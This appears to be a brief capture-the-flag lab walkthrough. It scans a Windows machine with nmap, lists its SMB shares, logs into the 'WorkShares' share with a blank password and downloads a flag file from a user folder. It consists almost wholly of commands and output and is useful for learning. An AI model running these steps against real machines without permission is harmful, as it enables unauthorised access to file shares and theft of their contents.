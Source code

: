 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 135/tcp - open  - msrpc
--> port 139/tcp - open - netbios-ssn
--> **port 445/tcp - open - microsoft-ds?**


2. List the files stored on the share
```bash
smbclient -L [ip machine]
	Password: [blank]
```
--> Sharename       Type      Comment
	 ---------            ----         -------
        ADMIN$          Disk      Remote Admin
        C$                   Disk      Default share
        IPC$                IPC       Remote IPC
        **WorkShares    Disk**      


3. Connect to the machine via "smb"
```bash
smbclient \\\\[ip machine]\\Workshares
	Password: [blank]
```
--> Connected

```bash
smb: \> ls
	Amy.J
	James.P

smb: \> cd James.P

smb: \James.P\> ls
	flag.txt

smb: \James.P\> get flag.txt



